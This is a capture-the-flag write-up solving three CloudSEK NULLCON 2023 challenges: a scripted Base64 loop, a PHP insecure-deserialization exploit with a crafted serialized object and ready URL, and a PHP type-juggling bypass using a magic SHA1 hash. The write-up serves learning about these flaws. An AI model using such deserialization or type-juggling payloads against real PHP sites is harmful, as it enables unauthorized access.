





------------------------

> ClouSEK's CTF challenge during NULLCON 2023

### Bases

Points: 100

Description:
- Do you Know Your Bases?
- PS: No Bruteforcing is required
- This Challange does not require you to access any other Port
- ` nc 43.204.152.119 1337 `


When connecting to the server we are given with Base64 encoded text and we have to submit the Base64 decoded text in the input but doing so it keep asking
for new Base64 text




Looking at the challenge category (`Scripting`), we can figure out that this process requires automation with the use of any scripting language. I'm am using  Python here

Python code:

```python
from pwn import *

conn = remote('43.204.152.119', 1337)

a = conn.recvline()
print(a)
a = a.decode().split("\t")[1].split("\n")[0]
a = b64d(a)
print(a)

for i in range(2, 102):
    print(i)
    conn.sendline(a)
    a = conn.recvline()
    print(a)
    try:
        a = a.decode().split("\t")[1].split("\n")[0]
        a = b64d(a)
    except IndexError as e:
        print(e)
        pass
    # print(a)
    pass

# n=101 ; flag: CSEK{3he_bas3_dec04er}
conn.close()

```

Output:

```powershell
PS D:\GitHub\ctf> python .\1.py
[x] Opening connection to 43.204.152.119 on port 1337
[x] Opening connection to 43.204.152.119 on port 1337: Trying 43.204.152.119
[+] Opening connection to 43.204.152.119 on port 1337: Done
b'What does this mean:\tblZNdGp4endmVzRrNTZoRHBsZUpLSXlMWDFQVWlDYloyY1RGZDhFMDM5T3ZzUkFtSGFCUUdnWVNvN3JOcXU=\n'
b'nVMtjxzwfW4k56hDpleJKIyLX1PUiCbZ2cTFd8E039OvsRAmHaBQGgYSo7rNqu'
2
b'> What does this mean:\tSGV6RjhocWF0MGlMUlBEQTFsTXJWS1VFNEpqVE9HTnhwMlhkNllCM3Y5U29zV0l3NXltYjdjbmtDUVpndWY=\n'
...
99
b'> What does this mean:\tSHltaGdNVWNJUTdvM3J3RFB1WmVuZlRLWXhxYjZOWHZHanpTOEZ0aU8yOUVBa1JkSldWc2wwTDRwQkMxNWE=\n'
100
b'> What does this mean:\tSnpzNkVCUTdZRloyd3JlNHUzVU1Sa2xtTHBPZzVkV1hEOXFiaHgwdmpTVlAxeUdUTkNuS2NmQTh0YWlISW8=\n'
101
b'> CSEK{3he_bas3_dec04er}\n'
list index out of range
[*] Closed connection to 43.204.152.119 port 1337
```

Flag: `CSEK{3he_bas3_dec04er}`

<br />

### Serialization Saga

Points: 100

Description:
- This Capture The Flag (CTF) challenge is designed to assess your ability to identify and exploit fundamental insecure deserialization vulnerabilities. Can you successfully execute the necessary functions and retrieve the flags? Lesssgoo!
- PS: No Bruteforcing is required
- https://webctf.cloudsek.com/serialization-saga

On the webpage we can see the php code.



PHP code:

```php
<?php

error_reporting(0);

class CloudSEK  {

    private $func_no;
    private $func_name;

    function __construct($no , $name)  {
        if ($no == NULL && $name == NULL)   {
            $this->func_no = $no;
            $this->func_name = $name;
        }
    }

    function __wakeup()  {
        $func_map = array(
            1 => "XVigil",
            2 => "BeVigil",
            3 => "GetMeDemFlagz",
        );
        
        $func_no = $this->func_no;
        $func_name = str_rot13($this->func_name);

        if ($func_map[$func_no] === $func_name)  {
            $this->$func_name();
        }
        else    {
            echo "<h3>Invalid Object Data</h3>";
        }
    }

    function XVigil()   {
        echo "<h3>XVigil is a cybersecurity platform designed to help organizations monitor and mitigate potential security threats and vulnerabilities across the digital landscape.</h3>";
    }

    function BeVigil()  {
        echo "<h3>World's first Security Search Engine mobiles that makes sure the applications installed in your phone are safe.</h3>";
    }

    function GetMeDemFlagz()    {
        $flag_file = "/tmp/flag.txt";
        if (file_exists($flag_file))    {
            $file_contents = file_get_contents($flag_file);
            echo $file_contents;
        }
        else    {
            $err_msg = "<h3>File Not Found!</h3>";
            $file_contents = $err_msg;
            echo $err_msg;
        }
    }
}

// $cloudsek = new CloudSEK(1 , "XVigil");
$sess = $_GET["sess"];
if (!isset($sess))  {
    exit();
}
$data = base64_decode($sess);
$obj = unserialize($data);

?>

```





In this code we can see that it is checking if GET parameter `sess` exist if yes Base64 decode it and parse it to php unserialize() 

There is also  `__wakeup()` function which is called on unserialize

to get the flag we have to call `GetMeDemFlagz` function. __wakeup function will perform rot13 on `func_name` and value of `func_no` should be index of the name of function in `func_map` array.




Now lets create the payload

Object name would be `CloudSEK` <-- name of the class. 
func_no = 3 and func_name = rot13("GetMeDemFlagz")

```
O:8:"CloudSEK":2:{s:7:"func_no";i:3;s:9:"func_name";s:13:"TrgZrQrzSyntm";}
```

Base64 decode this and put it in GET parameter `sess`

```
https://webctf.cloudsek.com/serialization-saga?sess=Tzo4OiJDbG91ZFNFSyI6Mjp7czo3OiJmdW5jX25vIjtpOjM7czo5OiJmdW5jX25hbWUiO3M6MTM6IlRyZ1pyUXJ6U3ludG0iO30=
```




Flag: `CSEK{PhP_0Bj3CT_D3$3R1L1Z@T10N}`

<br />

### The SHA Juggler

Point: 100

Description:
- Dive into the depths of "The SHA Juggler," a mysterious web challenge that tests your prowess in PHP type juggling, cunning encoding techniques, and web exploitation. Your mission is to outwit the system, leveraging the peculiarities of PHP type comparisons, decipher the applied encodings, and exploit vulnerabilities to retrieve the concealed flag. Can you navigate the enigmatic interplay of types and encodings and emerge victorious?
- PS: No Bruteforcing is required
- https://webctf.cloudsek.com/the-sha-juggler

in the pagesource of the webpage there is a variable `isThisNormal` which have long hex code, let's decode it

```
const isThisNormal = "50 44 39 77 61 48 41 4b 4c 79 38 67 65 57 39 31 58 32 5a 76 64 57 35 6b 58 32 31 6c 4c 6e 42 6f 63 41 70 70 5a 69 41 6f 61 58 4e 7a 5a 58 51 6f 4a 46 39 48 52 56 52 62 4a 32 68 68 63 32 67 6e 58 53 6b 70 49 48 73 4b 49 43 41 67 49 47 6c 6d 49 43 67 6b 58 30 64 46 56 46 73 6e 61 47 46 7a 61 43 64 64 49 44 30 39 50 53 41 69 4d 54 41 35 4d 7a 49 30 4d 7a 55 78 4d 54 49 69 4b 53 42 37 43 69 41 67 49 43 41 67 49 43 41 67 5a 47 6c 6c 4b 43 64 45 62 79 42 35 62 33 55 67 64 47 68 70 62 6d 73 67 61 58 52 7a 49 48 52 6f 59 58 51 67 5a 57 46 7a 65 54 38 2f 4a 79 6b 37 43 69 41 67 49 43 42 39 43 69 41 67 49 43 41 6b 61 47 46 7a 61 43 41 39 49 48 4e 6f 59 54 45 6f 4a 46 39 48 52 56 52 62 4a 32 68 68 63 32 67 6e 58 53 6b 37 43 69 41 67 49 43 41 6b 64 47 46 79 5a 32 56 30 49 44 30 67 63 32 68 68 4d 53 67 78 4d 44 6b 7a 4d 6a 51 7a 4e 54 45 78 4d 69 6b 37 43 69 41 67 49 43 42 70 5a 69 67 6b 61 47 46 7a 61 43 41 39 50 53 41 6b 64 47 46 79 5a 32 56 30 4b 53 42 37 43 69 41 67 49 43 41 67 49 43 41 67 61 57 35 6a 62 48 56 6b 5a 53 67 6e 5a 6d 78 68 5a 79 35 77 61 48 41 6e 4b 54 73 4b 49 43 41 67 49 43 41 67 49 43 42 77 63 6d 6c 75 64 43 41 6b 5a 6d 78 68 5a 7a 73 4b 49 43 41 67 49 48 30 67 5a 57 78 7a 5a 53 42 37 43 69 41 67 49 43 41 67 49 43 41 67 63 48 4a 70 62 6e 51 67 49 6b 4e 54 52 55 74 37 62 6a 42 66 4e 47 78 68 5a 31 38 30 58 33 56 39 49 6a 73 4b 49 43 41 67 49 48 30 4b 66 53 41 4b 50 7a 34 3d";
```

It is double encoding: hex > Base64

Tool used to decode: https://gchq.github.io/CyberChef/#

after decoding it with hex and Base64 we get php code:

```php
<?php
// you_found_me.php
if (isset($_GET['hash'])) {
    if ($_GET['hash'] === "10932435112") {
        die('Do you think its that easy??');
    }
    $hash = sha1($_GET['hash']);
    $target = sha1(10932435112);
    if($hash == $target) {
        include('flag.php');
        print $flag;
    } else {
        print "CSEK{n0_4lag_4_u}";
    }
} 
?>

```


This is php code for file `you_found_me.php` and it will check for GET parameter `hash` and to get the flag it will check for the condition if `sha1(10932435112) == sha1($_GET['hash'])`

But before this it will check if `$_GET['hash'] === "10932435112"` if yes die.

We can see that for the flag condition it is using `==` in `$hash == $target`. this is loosely comparision

The `sha1 of 10932435112 = 0e07766915004133176347055865026311692244` and in php this is treated as scientific E-notation.

Scientific E-notation is used to write very long numbers in a short form, `1e6` is `10^6` which is `1000000`

Now because this sha1 hash of "10932435112" start with `0e0` it will be trated as "0" because 0^anythig is 0. so any string which have sha1 hash starting with 0e and followed by any number will be treated as "0" and it will pass the condition.

Reference for this type of hashes: https://github.com/spaze/hashes/blob/master/sha1.md

This hashes are also known as magic hashes

here I'm using the payload: `hash=aaroZmOk`

```
https://webctf.cloudsek.com/the-sha-juggler/you_found_me.php?hash=aaroZmOk
```

Flag: `CSEK{typ3_juggl1ng_1n_php}`

Happy Hacking
